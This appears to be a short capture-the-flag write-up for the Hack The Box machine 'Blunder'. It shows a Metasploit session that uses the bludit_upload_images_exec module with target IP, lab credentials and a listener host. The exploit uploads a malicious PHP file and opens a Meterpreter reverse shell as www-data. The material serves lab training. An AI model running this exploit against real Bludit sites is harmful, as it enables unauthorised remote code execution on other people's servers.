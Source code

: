 # Alternative way to exploit Blunder

## Exploiting Bludit

After getting access to the **Bludit** dashboard and searching for vulnerabilities, the same vulnerability as in the initial write-up exists as a **Metasploit** module:

```
msf6 > use exploit/linux/http/bludit_upload_images_exec

msf6 exploit(linux/http/bludit_upload_images_exec) > set RHOSTS 10.10.10.191
msf6 exploit(linux/http/bludit_upload_images_exec) > set BLUDITUSER fergus
msf6 exploit(linux/http/bludit_upload_images_exec) > set BLUDITPASS RolandDeschain
msf6 exploit(linux/http/bludit_upload_images_exec) > set LHOST tun0

msf6 exploit(linux/http/bludit_upload_images_exec) > run
```

This uploads a malicious PHP file into _/bl-content/tmp_ and starts a **Meterpreter** session on the box as _www-data_.
